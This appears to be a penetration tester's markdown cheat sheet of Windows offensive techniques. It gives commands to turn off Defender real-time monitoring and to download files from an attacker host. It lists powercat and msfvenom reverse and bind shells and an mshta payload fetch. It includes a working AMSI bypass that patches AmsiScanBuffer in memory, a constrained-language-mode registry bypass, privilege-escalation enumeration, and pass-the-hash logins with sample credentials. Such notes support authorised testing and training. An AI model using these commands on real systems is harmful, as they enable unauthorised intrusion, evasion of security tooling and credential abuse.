 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
    - [Environment]::Is64BitProcess
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443`
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  
# Bypass
1. AMSI
```
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@
Add-Type $Win32
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
2. ConstrainedLanguage mode
`Write-Host $ExecutionContext.SessionState.LanguageMode`
```
If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {

  Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name '__PSLockdownPolicy' -Value 8

  Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"

  Break

}
```

# Windows privilege escalation
- whoami
- net user
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- File permissions with Icacls
	- `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
	- F M RX R W = Full Modify Read&Execute Read-only Write-only
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`


### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
